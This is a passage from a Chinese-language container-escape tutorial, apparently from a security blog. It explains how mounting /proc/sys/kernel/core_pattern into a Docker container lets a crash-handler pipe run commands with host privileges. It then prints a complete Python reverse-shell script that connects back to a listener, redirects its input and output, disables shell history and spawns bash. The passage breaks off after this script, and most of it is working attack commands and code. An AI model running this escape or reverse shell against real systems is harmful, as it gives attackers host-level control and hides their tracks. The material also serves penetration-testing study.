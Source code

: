 ```plain
docker run -it -v /var/run/:/
```

[![](assets/1706845681-400d6848fc7a915e54fb70bcc2711120.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240131232320-aa4a9eec-c04c-1.png)

## 挂载/proc

linux 的/proc 是一个伪文件系统，当容器启动时将/proc 目录挂载到容器内部时就可以实现逃逸

`/proc/sys/kernel/core_pattern`文件是负责进程奔溃时内存数据转储的，当第一个字符是`|`管道符时，后面的的部分会以命令行的方式进行解析并运行，并且由于容器共享主机内核的原因，这个命令是以宿主机的权限运行的。

由于管道符的原因，错误的数据可能会扰乱我们的命令，因此这里用 python 接受并且忽略错误数据。

```plain
docker run -it -v /proc/sys/kernel/core_pattern:/host/proc/sys/kernel/core_pattern ubuntu
```

找到当前容器在宿主机下的绝对路径：

[![](assets/1706845681-a3408615714ab982983487ef614aaca1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240131232455-e35a818e-c04c-1.png)

创建一个反弹 shell 的 python 脚本：

```plain
#!/usr/bin/python3
import  os
import pty
import socket
lhost = "127.0.0.1"
lport = 2333
def main():
   s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
   s.connect((lhost, lport))
   os.dup2(s.fileno(), 0)
   os.dup2(s.fileno(), 1)
   os.dup2(s.fileno(), 2)
   os.putenv("HISTFILE", '/dev/null')
   pty.spawn("/bin/bash")
   s.close()
if __name__ == "__main__":
   main()
```
